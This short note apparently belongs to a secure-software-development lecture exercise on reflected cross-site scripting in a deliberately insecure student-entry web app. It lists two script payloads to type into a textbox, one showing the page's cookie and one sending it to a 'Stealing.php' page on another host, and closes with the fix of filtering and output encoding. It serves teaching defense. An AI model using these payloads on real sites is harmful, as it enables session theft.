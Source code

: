 InsecureWebApplicationProject ->V 1.0.0

Insert new student

-------input these messages to the textbox (adi) ----------

    <script>alert(document.cookie);</script>
    <script>window.location="http://192.168.56.106/SecureSoftwareDevelopment/Lecture7/1XSS/2ReflectedXSS/Stealing.php?cookie="+document.cookie; </script>


apply filtering and output encoding in set member functions (code reuse)